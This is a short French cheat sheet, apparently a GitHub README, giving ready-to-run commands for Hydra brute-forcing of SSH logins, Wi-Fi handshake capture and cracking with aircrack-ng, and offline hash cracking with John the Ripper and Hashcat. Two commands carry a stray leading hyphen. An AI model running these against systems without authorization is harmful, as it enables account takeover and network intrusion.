 # hacker_commandes



## Hydra (Attaque de services en réseau, ex. SSH, FTP, HTTP):

    Installation : sudo apt install hydra
    Commande typique :

    hydra -l admin -P /chemin/liste_mots_passe.txt -t 4 ssh://192.168.1.1

    Description :
        -l : Nom d'utilisateur.
        -P : Chemin du fichier contenant les mots de passe.
        -t : Nombre de threads (pour accélérer).

## Aircrack-ng (Force brute de clés Wi-Fi) :

### Capture du handshake :

    airodump-ng wlan0mon

### Lancer la force brute sur un handshake capturé :

    -aircrack-ng -w /chemin/liste_mots_passe.txt -b [BSSID] fichier_capture.cap

## John the Ripper (Crack de mots de passe hors ligne) :

    Commande typique :

    -john --wordlist=/chemin/liste_mots_passe.txt hash_fichier.txt

Hashcat (Crack de hash avec GPU accélération) :

    Commande typique :

    hashcat -m 2500 -a 0 fichier_hashes.hccapx /chemin/liste_mots_passe.txt
